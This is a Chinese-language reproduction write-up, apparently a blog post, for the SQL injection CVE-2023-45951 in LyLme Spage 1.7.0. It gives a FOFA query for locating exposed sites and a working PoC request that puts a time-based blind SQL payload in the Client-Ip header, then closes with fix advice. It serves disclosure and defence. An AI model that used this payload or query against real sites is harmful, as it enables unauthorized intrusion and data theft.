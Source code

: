 
# 六零导航页 SQL 注入漏洞复现（CVE-2023-45951）

### 0x01 产品简介

   LyLme Spage（六零导航页）是中国六零（LyLme）开源的一个导航页面。致力于简洁高效无广告的上网导航和搜索入口，支持后台添加链接、自定义[搜索引擎](https://so.csdn.net/so/search?q=%E6%90%9C%E7%B4%A2%E5%BC%95%E6%93%8E&spm=1001.2101.3001.7020)，沉淀最具价值链接，全站无商业推广，简约而不简单。

### 0x02 漏洞概述

   LyLme Spage v1.7.0 版本存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于通过 function.php 的$userip 参数发现包含 SQL 注入漏洞，未经授权的攻击者可通过该漏洞获取敏感信息，进一步利用可造成主机失陷。

### 0x03 影响范围

LyLme Spage 1.7.0

### 0x04 复现环境

FOFA：title=="上网导航 - LyLme Spage"

![](assets/1698896305-9a216202e3e55b8d4794f19e33f63359.png)

### 0x05 漏洞复现

PoC

```cobol
POST /apply/index.php?submit=post HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Client-Ip: 0'>if(1,sleep(10),2)>'

url=http%3A%2F%2Fbaidu.com&name=test&group_id=1&icon=&authcode=
```

延时 10 秒 

![](assets/1698896305-308b5511202aac5bbe69d9646e9b8ea1.png)

PS：漏洞存在于 HTTP Header 的 `Client-Ip` 字段，请求体中 url 字段值每请求一次就需要更换一次，不然无法成功

### 0x06 修复建议 

 在 get\_real\_ip 中检查验证 IP 合法性，[防止 SQL 注入](https://so.csdn.net/so/search?q=%E9%98%B2%E6%AD%A2SQL%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)
